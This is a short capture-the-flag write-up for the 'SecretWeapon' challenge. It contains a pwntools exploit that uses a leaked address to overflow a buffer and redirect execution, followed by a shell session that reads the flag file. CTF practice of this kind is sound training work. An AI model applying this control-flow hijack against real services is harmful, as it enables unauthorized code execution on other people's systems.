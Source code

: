 ## SecretWeapon

#### Solved by nhanlun

```
The war is comming!!! Could you have me to get the weapons nc 61.28.237.24 30201

author: pakkunandy
```

```py
from pwn import *

conn = remote("61.28.237.24", 30201)
conn.recvline()
line = conn.recvline().decode().replace("Your current location is townsquare with the address ", "")

address = int(line, 16)
log.info("Leaked: " + hex(address))

conn.sendline(b'A' * 28 + p32(0x112d6 - 0x112ff + address))
conn.interactive()
```

```
$ ls
bin
dev
flag.txt
lib
lib32
lib64
weapon
$ cat flag.txt
HCMUS-CTF{you_know_how_to_compute_location}
```

**Flag:** `HCMUS-CTF{you_know_how_to_compute_location}`
